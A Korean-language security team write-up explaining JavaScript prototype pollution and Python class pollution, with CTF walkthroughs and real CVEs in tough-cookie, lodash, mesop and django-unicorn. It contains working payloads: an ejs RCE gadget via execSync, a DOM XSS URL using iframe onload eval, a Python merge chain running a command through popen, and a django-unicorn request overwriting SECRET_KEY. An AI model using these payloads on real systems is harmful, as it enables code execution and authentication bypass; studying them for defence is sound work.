


# 초안

***By Knights of the SPACE 가세혁(dpp), 김다희(lxnee), 박진완(realsung), 정성훈(HunSec)***

# **BackGround( 정성훈 )**

Class Pollution 취약점을 소개하기 전에 기본적으로 알아야 할 몇 가지 배경지식을 소개하겠습니다.

JavaScript는 객체지향 언어이며 객체를 기반으로 작동하는 언어입니다.

JavaScript 를 이루고 있는 거의 모든 것이 객체입니다.

## 객체란?

이름(Key)과 값(Value)으로 이루어진 속성들의 집합입니다. 아래 객체 예시를 확인할 수 있습니다.

### **person 객체**

```python
const person = {
  name: "지수",         // key: name, value: "지수"
  age: 24,              // key: age, value: 24
  isStudent: true       // key: isStudent, value: true
};
```

## 속성이란?

**객체(Object)** 안에 있는 **"이름(key)"과 "값(value)"의 쌍입니다.**

```python
const user = {
  name: "지수",       // name: 속성
  age: 25             // age: 속성
};
```

- name, age → **속성** 이름 (key)
- "지수", 25 → **속성** 값 (value)

## 메소드란?

객체 안에 정의되거나 객체에 속하는 함수입니다.

### 메소드와 함수의 차이

- **메소드** : **객체를 통해** 호출되는 함수
- **함수** : **객체 없이** 독립적으로 호출되는 함수

**메소드**

```jsx
const obj = {
  greet: function() {
    console.log("안녕!");
  }
};
obj.greet(); 
```

**함수**

```jsx
function greet() {
  console.log("안녕!");
}
greet(); 
```

## Prototype

JavaScript는 전통적인 Class 기반 상속과 달리 **Prototype(프로토타입) 기반 상속**을 사용합니다.

**Prototype은** 타 언어와 구별되는 JavaScript만의 중요한 개념입니다.

> Prototype은 JavaScript에서 **객체가 다른 객체**로부터 **속성**과 **메소드**를 
**상속받기 위한 메커니즘**입니다. 
***쉽게 Prototype은 일종의 유전자**로 ****생각하시면 편합니다.*
> 

### Prototype의 이해

```jsx
const user = {
  sayHi() {
    console.log("안녕!");
  }
};

**const admin = Object.create(user);**
admin.name = "관리자";

admin.sayHi();  // 👉 "안녕!"  ← **user에서 상속받은 메서드**
```

admin 객체는 user 객체를 **Prototype으로 삼고** 있으므로, admin 자체에 sayHi()가 없어도 Prototype Chain을 따라 user.sayHi()를 찾아 호출할 수 있습니다.

- **부모 객체의 prototype (유전자)**
    - **자식에게 물려줄 메소드**를 정의하는 전용 공간입니다.
    - 예시: Parent.prototype.sayHello = function () { … };
- **자식 객체의 __proto__(내부 유전자에 접근하기)**
    - 생성될 때 **부모의 prototype**을 참조해 저장합니다.
    - 이를 통해 **부모로부터 상속된 메소드·속성**에 접근할 수 있습니다.

### __**proto__**

모든 객체는 **__proto__**를 통해 자신의 **Prototype Chain(Prototype 내부)** 에 접근할 수 있습니다.

**prototype 예시**

```jsx
function Person(name) {
  this.name = name;
}
Person.prototype.sayHello = function() {
  console.log("안녕, 나는 " + this.name);
};

const p1 = new Person("지수");
p1.sayHello();  // 👉 "안녕, 나는 지수"

```

- p1은 Person.prototype을 프로토타입으로 삼음

## JavaScript 상속

JavaScript는 **Class 기반 상속**이 아닌  **Prototype기반 상속으로 객체끼리 연결을 통한 상속**을 합니다 (**Object**.,**proto,create** 이용)

### JavaScript: Prototype 기**반 상속**

```jsx
const parent = {
  sayHi() {
    console.log("안녕!");
  }
};

const child = Object.create(parent);
child.name = "지수";

child.sayHi();  // 👉 parent에서 상속받은 메서드

```

### Python: Class **기반 상속**

```jsx
class Parent:
    def say_hi(self):
        print("안녕!")

class Child(Parent):  # 상속
    def __init__(self, name):
        self.name = name

c = Child("지수")
c.say_hi()  # 👉 Parent에서 상속받은 메서드

```

---

# Prototype pollution ( 박진완 )

## Prototype pollution 이란

**Prototype Pollution**은 공격자가 객체의 Prototype(Object.prototype)에 접근하여 임의의 속성을 추가할 수 있게 하는 JavaScript 취약점입니다.

만약 애플리케이션이 INPUT을 안전하지 않은 방식으로 처리한다면, 주로 다른 취약점으로 확장됩니다.

클라이언트 측 JavaScript에서는 이러한 공격이 일반적으로 **DOM XSS**로 이어지며, 서버 측에서는 **RCE**(Remote Code Execution)로 이어질 수도 있습니다.

Prototype Pollution의 실용적인 접근을 위해 Prototype에 접근하는 다양한 방법을 알아보겠습니다.

7월 10일에 Ark가 X(구 Twitter)에 **“Tips: 7 ways to access __proto__ in JavaScript”**라는 게시글을 올렸습니다.

[https://x.com/arkark_/status/1943260773268230205](https://x.com/arkark_/status/1943260773268230205)

위와 같이 7가지 방법으로 prototype에 접근할 수 있습니다.

그러면 Prototype Pollution은 주로 어떤 상황에 발생할까요?

(이제부터 설명의 용이성을 위해 Prototype Pollution을 PP라 표기하겠습니다.)

**일반적으로 PP는 다음과 같은 상황에서 주로 발생**합니다.

```jsx
const obj = {};
const credential = {};

INPUT1 = '__proto__';
INPUT2 = 'admin';
INPUT3 = true;
obj[INPUT1][INPUT2] = INPUT3;

if (credential.admin) console.log('Hello Admin');
// Output : Hello Admin
```

위와 같이 유저의 INPUT이 객체 접근에 사용되고, 객체에 할당되는 값(INPUT3)를 조작할 수 있을 때 PP가 발생합니다. 이런 식으로 내부 변수를 조작하여 공격자는 원하는 동작을 이끌어 낼 수 있습니다.

## 공격 예시

### Prototype Pollution lead to RCE 사례

Server Side에서 Prototype Pollution이 발생할 시 RCE로 이어질 수 있다는 점을 보여주는 좋은 사례입니다.

(이해를 돕기 위해 Prototype Pollution을 코드에 직접 삽입하였습니다. USER INPUT을 통해 발생하는 사례도 충분히 가능합니다.)

버전 : 3.1.6

모듈 : ejs (NPM)

```jsx
// app.js
const express = require('express');
const app = express();
const PORT = 3000;
app.set('views', __dirname);
app.set('view engine', 'ejs');

Object.prototype.client = 1;
Object.prototype.escapeFunction = 'function(){};console.log(process.mainModule.require("child_process").execSync("dir").toString())';

app.get('/', (req, res) => {
    res.render('index');
});

app.listen(PORT, () => {
    console.log(`Server is running on ${PORT}`);
});
```


### Prototype Pollution lead to DOM XSS

**L3akCTF 2025**에 [NotoriousNote](https://ctf.l3ak.team/challenges#NotoriousNote-64)라는 문제가 출제되었습니다. (135 Solves)

다루고자 하는 주제와 잘 맞는 문제라서 예시로 가져오게 되었습니다.

```jsx
// index.js
document.addEventListener('DOMContentLoaded', function() {
    const [_, query] = [window.location, QueryArg.parseQuery(window.location.search)];
    const { note: n } = query;

    const actions = [
        () => console.debug(n), 
        () => {
            const el = document.getElementById('notesPlaceholder');
            if (n) {
                const renderNote = txt => `<div class="note-item">${sanitizeHtml(txt)}</div>`;
                el.innerHTML += renderNote(n);
            }
        }
    ];

    actions.forEach(fn => fn());
});
```

**index.js**에서는 `QueryArg.parseQuery`로 `window.location.search` 를 파싱합니다.

`QueryArg.parseQuery` 는 출제자가 구현한 것으로 Prototype Pollution에 취약하게 구현되어 있습니다.

sanitizeHtml은 NPM의 **sanitize-html 모듈**입니다.

```jsx
(function(global){
  global.MakeQueryArg = function(){
			...
			
      switch (selector.charAt(selectorBreak)) {
        case '[':
          obj[currentRoot] = obj[currentRoot] || [];
          nextSelector = nextSelector.replace(']', '');

          if (nextSelector.search(/[\.\[]/) === -1 && nextSelector.search(/^[0-9]+$/) > -1) {
            nextSelector = parseInt(nextSelector, 10);
          }

          return QueryArg._qaAccess(obj[currentRoot], nextSelector, value);
       
		...
```

 `__proto__` 와 같은 문자열의 검증없이 currentRoot를 사용하여 할당하기 때문에 Prototype Pollution이 발생합니다.

[http://34.134.162.213:17002/?__proto__[a]=1](http://34.134.162.213:17002/?__proto__[a]=1) 해당 링크에 접속하여 PP를 확인할 수 있습니다.
 


`sanitizeHtml prototype pollution` 을 검색하면 [유용한 링크](https://www.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers.html)가 나옵니다.


따라서 아래와 같이 접근하여 문제를 해결할 수 있습니다.ㅑ

```
http://127.0.0.1:5000/?note=%3Ciframe%20onload=eval(atob(%22BASE64 인코딩된 페이로드%22))%3E&__proto__[*][0]=onload
```

### 관련 워게임

[https://dreamhack.io/wargame/challenges/205/](https://dreamhack.io/wargame/challenges/205/)

[https://dreamhack.io/wargame/challenges/468/](https://dreamhack.io/wargame/challenges/468/)

[https://dreamhack.io/wargame/challenges/643/](https://dreamhack.io/wargame/challenges/643/)

[https://dreamhack.io/wargame/challenges/1678](https://dreamhack.io/wargame/challenges/1678)

---

# class pollution ( 정성훈 )

## class pollution 이란

보통 JavaScript 환경에서 발생하는 Prototype pollution 취약점은 
**Prototype이 없는 Python 환경에서도 취약점이 발**생합니다.

**정확히 말하면**, Python에서는 Prototype이 존재하지 않지만, **Class 기반**으로 Prototype과 비슷하게 
작동을 하기 때문에 Python 언어에서도 Prototype pollution 취약점을 재현할 수 있습니다.
이 취약점을 편의상

**Prototype pollution in Python** 또는 **class pollution**으로 표현하겠습니다.

Python 환경에서 발생하는 **Class Pollution 취약점**은 주로 **Magic Method**를 이용해서 이루어집니다.

## Magic Method (Duner Method ,Speical Method)

**Magic Method** : **메소드의 양쪽을 (__)** 로 감싼형태인 파이썬 클래스 안에서 **특수 메소드** 입니다.

ex)**__str__(), __call__()**

## Pototype Pollution 과 Class Pollution의 차이점

- Python에서는 **__getitem__  __setitem__**으로는 **__class__  __base__**같은 속성에 접근할 수 없습니다.
- JavaScript는 이런 제한이 없으므로 Python 환경보다 더욱더 유연하게 공격을 진행할 수 있습니다.
- **Prototype이 없는 class 기반 상속 언어인 Python 환경**에서 일어나는 class pollution 취약점은 
**Magic Method(특수 속성)**을 이용합니다.

이러한 **Magic Method**들은 객체가 특정 작업과 다양한 연산자와 함께 사용될 때 어떤 동작을 해야 할지 정의해줍니다.

즉 Python에서는 **JavaScript처럼 Prototype은 없지만,** **Magic Method**를 이용해서 유사한 기능,구조를 구현할 수 있습니다.

아래 2개의 코드는 Class Pollution을 보여주는 예시입니다.

```python
class Dog:
    def bark(self):
        print("멍멍!")

dog = Dog()
dog.bark()  # 출력: 멍멍!

# 런타임 중 메서드 오버라이드
def new_bark(self):
    print("왈왈!!")

dog.bark = new_bark.**__get__(dog)**
dog.bark()  # 출력: 왈왈!!

```

코드에서 확인할 수 있듯이 Python 환경에서는 실행 도중 객체의 메소드를 바꿀 수 있습니다.

```python
class Employee: pass  # 빈 클래스 정의

emp = **Employee()**         # Employee 클래스 인스턴스 생성
another_emp = **Employee()** # 또 다른 인스턴스 생성

**Employee**.name = 'No one' # 클래스 수준에서 name 속성 추가
print(**emp**.name)          # emp는 클래스 속성 접근 → 'No one' 출력

**emp**.name = 'Employee 1'  # emp 인스턴스에 name 속성 오버라이드
print(**emp**.name)          # 인스턴스 속성이 우선 → 'Employee 1' 출력

emp.say_hi = lambda: 'Hi there!' # emp 인스턴스에만 say_hi 메서드 추가
print(emp.say_hi())              # emp에서 say_hi 실행 → 'Hi there!' 출력

**Employee.say_bye** = lambda s: 'Bye!'  # 클래스 수준에 say_bye 메서드 정의
print(emp.**say_bye()**)                 # emp도 say_bye 접근 가능 → 'Bye!' 출력

**Employee.say_bye** = lambda s: 'Bye bye!'  # say_bye 메서드를 다시 덮어씀
print(another_emp.**say_bye()**)            # another_emp도 새 버전 실행 → 'Bye bye!' 출력

```

**Employee.say_bye**와 같이 외부에서 **Class Method**를 조작하면 영향받는 상황인 Class Pollution이 발생합니다.

공격자의 관점인 우리는 **Magic Method보다는 속성에 집중해야 합니다.**

그 이유는 Magic Method를 덮어쓴다면, 오류가 일어나기 때문에, 공격이 불가능해집니다.

예시로  **__class__**  속성을 직접 덮어봅시다.

### __class__

```python
class Employee: pass # 빈 클래스 정의

emp = Employee()
emp.**__class__** = 'Polluted'

#> Traceback (most recent call last):
#>   File "<stdin>", line 1, in <module>
#> TypeError: __class__ must be set to a class, not 'str' object
```

- Employee의 인스턴스인 emp.__class__는 Employee를 가리키고.
- emp객체의 Class 속성값으로 **Pollute** 라는 문자열이 들어가 있고 오류가 발생하는 것을 볼 수가 있습니다

**TypeError: __class__ must be set to a class, not ＇str＇ object**

문자열이 아니라, Class로만 할당할 수 있다고 **에러가 나오는 것을 확인할 수 있습니다.**

속성 덮어쓰기 자체는 가능했지만, 자료형이 올바르지 않아서 Type error가 발생하는 것입니다.

**이는 덮어쓰기가 가능한 걸 알려주는 아주 좋은 에러입니다!**

이번에는 문자열을 허용하는 **__qualname__** 이라는 속성으로 진행해봅시다.

### __qualname__

```python
class Employee: pass # Creating an empty class

emp = Employee()
emp.__class__.__qualname__ = 'Polluted'

print(emp)
print(Employee)

#> <__main__.Polluted object at 0x0000024765C48250>
#> <class '__main__.Polluted'>
```

**__qualname__** 를 통해서 속성에 임의의 문자열인 Polluted가 들어가 있는 것을 확인할 수 있습니다.

**emp.__class__.__qualname__** 을 설정했을 때 단순히 emp의 인스턴스가 바뀐 게 아니라,emp가 속한 클래스(Employee)의 속__qualname__ 속성이 변경된 것입니다.

- emp.__class__.__qualname__ = ＂Polluted＂ → Employee.__qualname__ = ＂Polluted＂과 같습니다.

## 다양한 class pollution 방법

### __base__ 속성을 이용한

**base** 속성을 이용한 부모 Class까지의 pollution

가장 가까운 부모 Class를 참조하는__base__ 속성을 이용해서 직접 상속한 마지막 부모 Class까지 pollution

### object polluted

Object Class는 모든 Class가 상속받는 부모 class이므로 만약 Object Class를 Pollution 한다면 모든 객체에 영향을 주는 아주 효과적인 공격 방법일 것입니다.

하지만 최상위 부모 Class인 Object Class를 오염시키는 건 **불가능합니다.**

**object.__qualname__ = 'Polluted'** 

ㅡ> **TypeError: cannot set '__qualname__' attribute of immutable type 'object'**

Object는 속성 설정이 불가능합니다. Python 언어 특성상 **object, str, int, dict** 같이 **불변 타입**은
 Class 수정이 불가능 **class pollution 대상이 아닙니다.**

---

# Class Pollution 공격 예시 ( 가세혁 )

## 공격 예시

### 1. 부모 Class Pollution

```python
class Animal:
    species = "동물"

class Mammal(Animal):
    pass

class Dog(Mammal):
    pass

a = Animal()
m = Mammal()
d = Dog()

print(a.species)  # 동물
print(m.species)  # 동물
print(d.species)  # 동물

# class 체인의 조상 클래스 오염
d.__class__.__base__.__base__.species = "오염된 동물"

print(a.species)  # 오염된 동물
print(m.species)  # 오염된 동물
print(d.species)  # 오염된 동물
```

---

### 2. __class__ 속성 병합 Pollution

```python
class Animal: 
    pass

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

# 오염용 입력
animal_info = {
    "species": "고양이",
    "age": 4,
    "owner": {
        "name": "민수"
    },
    "__class__": {
        "__qualname__": "Polluted"
    }
}

a = Animal()
merge(animal_info, a)

print(vars(a))                  # {'species': ..., 'age': ..., ...}
print(a)                        # <__main__.Polluted object at ...>
print(a.__class__.__qualname__)# Polluted
print(Animal.__qualname__)     # Polluted
```

---

### 3. 명령 실행용 오염 체인

```python
from os import popen

class Employee: pass
class HR(Employee): pass
class Recruiter(HR): pass

class SystemAdmin(Employee):
    def execute_command(self):
        command = self.custom_command if hasattr(self, 'custom_command') else 'echo Hello there'
        return f'[!] Executing: "{command}", output: "{popen(command).read().strip()}"'

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

# 오염용 payload
USER_INPUT = {
    "__class__": {
        "__base__": {
            "__base__": {
                "custom_command": "whoami"
            }
        }
    }
}

recruiter_emp = Recruiter()
system_admin_emp = SystemAdmin()

print(system_admin_emp.execute_command())
# [!] Executing: "echo Hello there", output: "Hello there"

# 병합을 통해 조상 클래스 오염 시도
merge(USER_INPUT, recruiter_emp)

print(system_admin_emp.execute_command())
# [!] Executing: "whoami", output: "abdulrah33m"
```

### 클래스 구조



### 오염 경로



https://medium.com/@edgenask/bauhinia-ctf-2023-17fe1b00a398

https://github.com/jmoraissec/ctf-class-pollution

https://blog.abdulrah33m.com/prototype-pollution-in-python/

https://www.cyberdonald.com/post/downunderctf-web-co2

https://www.offensiveweb.com/docs/programming/python/class-pollution/

https://book.hacktricks.wiki/en/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution.html

---

# realworld case ( 김다희 )

## Prototype Pollution

### 1. tough-cookie (affected from 0 before 4.1.3) &  ****CVE-2023-26136,  CWE-1321

---

- **Program :** tough-cookie (affected from 0 before 4.1.3)
- **Reported ID :** CVE-2023-26136,  CWE-1321
- **Severity :** Medium (6.5)
- **Bounty :** N/A

tough-cookie는 Node.js 환경에서 RFC6265 표준을 준수하는 쿠키 관리 및 쿠키 저장소 기능을 제공하는 오픈소스 라이브러리입니다. 

4.1.3 이전 버전의 tough-cookie에서는, 여러 쿠키가 저장·관리되는 쿠키 저장소 객체의 옵션 중 rejectPublicSuffixes=false 을 사용할 때 cookie 설정 과정에서 프로토타입 오염이 발생할 수 있었습니다. 객체 초기화 방식의 문제로 인해 제한된 속성 정보가 노출되거나 수정되는 것입니다.

쿠키 저장소 객체를 생성할 때 rejectPublicSuffixes 옵션을 false로 설정하면, 공개 접미사(public suffix) 검증이 비활성화됩니다. 공개 접미사 검증이 비활성화되면, .com, .co.kr 등과 같이 쿠키를 설정할 수 없어야 하는 상위 도메인에 대해서도 쿠키가 설정됩니다. 이로 인해 쿠키의 Domain 속성에 임의 값(ex. __proto__)이 허용됩니다.

• __proto__는 JavaScript에서 Object.prototype 체인을 조작할 수 있는 특수 속성입니다.

```jsx
const tough = require("tough-cookie");
const cookiejar = new tough.CookieJar(undefined, { rejectPublicSuffixes: false });

await cookiejar.setCookie(
  "Slonser=polluted; Domain=__proto__; Path=/notauth",
  "https://__proto__/admin"
);

console.log({}["/notauth"]["Slonser"]); // polluted
```

위 코드의 setCookie에서는 Domain=__proto__을 쿠키를 설정하고 있습니다.  __proto__가 도메인으로 사용되면, 쿠키 저장소(CookieJar)의 Object.prototype이 오염됩니다. 또한, 쿠키는 Slonser=polluted 값을 가지며, 오염된 해당 값이 주입될 경로는 /notauth입니다. 

console.log 줄에서는 비로소 Object.prototype["/notauth"]["Slonser"]가 오염됩니다. 결과적으로, 모든 객체에서 쿠키 경로인 /notauth에 접근하면 Slonser의 속성값 polluted을 읽을 수 있게 됩니다. 

> https://security.snyk.io/vuln/SNYK-DEBIANUNSTABLE-NODETOUGHCOOKIE-5759359
> 
> 
> [https://www.cve.org/CVERecord?id=CVE-2023-26136](https://www.cve.org/CVERecord?id=CVE-2023-26136)
> 
> https://nvd.nist.gov/vuln/detail/cve-2023-26136
> 
> https://security.snyk.io/vuln/SNYK-JS-TOUGHCOOKIE-5672873
> 
> [https://github.com/salesforce/tough-cookie/issues/282](https://github.com/salesforce/tough-cookie/issues/282)
> 

---

### 2. lodash (affected at All versions prior to 4.17.12) & CVE-2019-10744,  CWE-1321

---

- **Program :** lodash (affected at All versions prior to 4.17.12)
- **Reported ID :** CVE-2019-10744,  CWE-1321
- **Severity :** High (7.3)
- **Bounty :** N/A

lodash의 v4.17.12+ 이전 버전에서는 객체 속성을 깊은 수준(deep level)까지 병합하는 defaultsDeep의 recursive merge로 인한 프로토타입 오염 문제가 있었습니다. 

- recursive merge (재귀적 병합)이?

예를 들어, Object.defineProperty()를 사용해서 __proto__ 속성을 가진 객체를 만든다고 합시다. 이를 병합 대상 객체(source)로 사용하면 문제가 생깁니다. 병합 대상인 객체와 병합 결과가 저장될 대상(target)  객체 모두에 같은 속성이 있고, 그 속성들이 객체인 경우, 병합 함수는 그 안의 속성들을 계속 재귀적으로 병합하기 때문입니다.

이 과정에서 __proto__ 속성이 처리되면, 병합 함수가 Object.prototype(모든 객체의 기본 프로토타입)에 접근하게 되고, 여기에 공격자가 원하는 속성들을 주입할 수 있게 됩니다. 이렇게 되면 모든 객체에 영향을 줄 수 있는 심각한 보안 문제가 발생합니다.

특히 이런 취약점은 빈 객체와 병합하는 "클론" 작업을 할 때 자주 발생합니다. 예를 들어 merge({}, source)처럼 쓰면, 빈 객체에 source의 속성을 병합하는데, 이때 source에 __proto__가 있으면 위와 같은 보안 문제가 일어날 수 있습니다.

defaultsDeep(target, source) 함수는 source 객체의 속성을 target에 복사합니다. 이때, 속성이 객체라면 그 내부도 재귀적으로 병합합니다.

```jsx
const mergeFn = require('lodash').defaultsDeep;
const payload = '{"constructor": {"prototype": {"a0": true}}}';

function check() {
    mergeFn({}, JSON.parse(payload)); // 1. 취약점 트리거
    if (({})[`a0`] === true) { // 2. 오염 확인
        console.log(`Vulnerable to Prototype Pollution via ${payload}`);
    }
}

check();
```

위 코드의 mergeFn 함수에서는 빈 객체 {}와 payload가 병합됩니다. 병합 중 constructor와 그 안의 prototype이 객체로 인식되며, lodash는 이를 재귀적으로 따라갑니다. lodash.defaultsDeep() 함수가 payload를 병합할 때 constructor.prototype 경로를 따라감으로써  Object.prototype에 a0: true 이 주입되어 오염됩니다. 

if문에서는 새로 만든 빈 객체에서도 a0가 true로 나오는지 테스트합니다. 오염된 Object.prototype에서 a0 값을 읽어오며, true가 반환됨에 따라 취약점의 존재가 확인됩니다.  

> https://security.snyk.io/vuln/SNYK-JS-LODASH-450202
> 
> 
> [https://snyk.io/blog/snyk-research-team-discovers-severe-prototype-pollution-security-vulnerabilities-affecting-all-versions-of-lodash/?_gl=1*d7rzny*_gcl_au*MTc4MTUyODEzLjE3NTAzNDcwMDM.*_ga*MTI5NzMxODQuMTc1MDM0MjczMQ..*_ga_X9SH3KP7B4*czE3NTAzNTIxMDckbzMkZzEkdDE3NTAzNTIyNTQkajYwJGwwJGgw](https://snyk.io/blog/snyk-research-team-discovers-severe-prototype-pollution-security-vulnerabilities-affecting-all-versions-of-lodash/?_gl=1*d7rzny*_gcl_au*MTc4MTUyODEzLjE3NTAzNDcwMDM.*_ga*MTI5NzMxODQuMTc1MDM0MjczMQ..*_ga_X9SH3KP7B4*czE3NTAzNTIxMDckbzMkZzEkdDE3NTAzNTIyNTQkajYwJGwwJGgw)
> 

---

## Class Pollution

---

### 1. **mesop & CVE-2025-30358, CWE-915**

---

- **Program : mesop**
- **Reported ID :** **CVE-2025-30358, CWE-915**
- **Severity : High (7.2)**
- **Bounty : N/A**

mesop은 Python으로 UI를 구축하는 프레임워크입니다. mesop의 0.14.0 이하 버전의 _recursive_update_dataclass_from_json_obj() 함수에서는 Class Pollution 문제가 있었습니다. 

_recursive_update_dataclass_from_json_obj()는 외부의 JSON 데이터를 Python 데이터 클래스로 재귀적으로 변환하여 매핑하는 함수입니다. 이 함수는 dunder 속성 (__로 시작하는 속성)에 대한 필터링을 수행하지 않다는 문제가 존재했습니다. 그렇기에 공격자가 JSON 입력에 __로 시작하는 악성 속성을 overwrite하면 이는 python 클래스의 내부 시스템 속성에 악성 데이터를 삽입할 수 있습니다. 이는 DoS(서비스 거부) 공격을 일으킬 수 있으며, 클래스의 기본 동작이 마비되거나 조작될 수 있습니다. 공격자가 중첩된 딕셔너리 구조를 통해 제한 없이 재귀 호출을 유발하여 스택 오버플로우나 무한 루프를 일으킬 수도 있습니다. 또한, 속성의 결과 값이 런타임에서 제어될 수 있다면 사용자 사칭, 데이터 오염, Class 동작 변경 등의 심각한 보안 사고를 초래할 수 있습니다. 

```jsx
def _recursive_update_dataclass_from_json_obj(instance: Any, json_dict: Any):More actions
for key, value in json_dict.items():

if hasattr(instance, key):
attr = getattr(instance, key)
if isinstance(value, dict):
```

위 코드에서는 던더(Dunder) 속성 필터링이 부재합니다.  if key.startswith("__") and key.endswith("__"): 과 같은 검증 로직이 없기에 공격자는 __init__, __call__, __class__ 같은 중요한 내부 속성이 제어될 수  있습니다. Python 객체의 기본 동작이 마비되거나 조작이 가능해지며, 중첩된 딕셔너리에 대해 제한 없이 재귀 호출이 가능하기에 모든 중첩 레벨이 오염될 수 있습니다. 

> https://security.snyk.io/vuln/SNYK-PYTHON-MESOP-9669339
> 
> 
> https://github.com/mesop-dev/mesop/commit/748e20d4a363d89b841d62213f5b0c6b4bed788f#diff-883b9c6a73562bf9cb21027f4afb7c018f0490c04467a69281a53758724dd71e
> 

---

### 2. **django-unicorn & CVE-2025-24370, CWE-915**

---

- **Program : django-unicorn**
- **Reported ID :** **CVE-2025-24370, CWE-915**
- **Severity : Critical (9.3)**
- **Bounty : N/A**

Django-Unicorn은 Django를 위한 full-stack 프레임워크로, 템플릿에 최신 반응형 컴포넌트 기능을 추가합니다. Django-Unicorn의 0.62.0 이전 버전에서,  set_property_value 함수는 class Pollution에취약했습니다. 

```jsx
def set_property_value(
    component,
    property_name,
    property_value
) -> None:
    ...
    property_name_parts = property_name.split(".")
    component_or_field = component
    ...
```

set_property_value 함수는 외부에서 속성 값을 수정하는 기능을 제공하는데, 경로를 점으로 구분하여 객체의 속성에 접근할 수 있습니다. 사용자가 적절한 컴포넌트 요청을 작성하고 취약한 함수에 두 번째
(property_name) 및 세 번째 (property_value)매개변수 값을 입력하여 원격으로 트리거할 수 있으며, 이로 인해 Python 런타임 상태가 임의로 변경됩니다. 해당 취약점의 악용 방법이 최소 다섯 가지 이상 포착되었으며, 대부분의 Django-Unicorn 기반 애플리케이션에서 XSS, DoS, 인증 우회 공격으로 이어질 수 있습니다. 

다음은 overwriting a secret key를 통해 인증 우회 공격을 수행할 수 있는 코드입니다. 

```jsx
POST /unicorn/message/todo HTTP/1.1

{
  "id": 123,
  "actionQueue": [
    {
      "type": "syncInput",
      "payload": {
        "name": "__init__.__globals__.sys.modules.django.template.backends.django.settings.SECRET_KEY",
        "value": "test"
      }
    }
  ],
  "data": {
    "task": "",
    "tasks": []
  },
  "epoch": "123",
  "checksum": "XXX"
}
```

점으로 구분된 경로를 사용하여 속성을 찾는 set_property_value 함수의 경로 검증이 부족하여__globals__와 같은 magical 속성에 접근할 수 있게 됩니다.

공격자는 property_name으로 __init__.__globals__.sys.modules.django.template.backends.django.settings.SECRET_KEY를 설정합니다. __globals__는 파이썬의 전역 네임스페이스를 참조하는 특수한 속성이므로, 이를 통해 sys.modules를 거쳐, django.settings.SECRET_KEY에 접근하고 수정할 수 있습니다. 그 결과, 공격자는 비밀 키의 런타임 값을 의도한 대로 변조함으로써 세션 쿠키를 위조하여 다른 사용자로 시스템에 로그인할 수 있습니다.

> https://nvd.nist.gov/vuln/detail/CVE-2025-24370
> 
> 
> https://www.cve.org/CVERecord?id=CVE-2025-24370
> 
> https://access.redhat.com/security/cve/cve-2025-24370
> 
> https://feedly.com/cve/CVE-2025-24370
> 
> https://security.snyk.io/vuln/SNYK-PYTHON-DJANGOUNICORN-8685541
> 
> [https://github.com/advisories/GHSA-g9wf-5777-gq43](https://github.com/advisories/GHSA-g9wf-5777-gq43)
>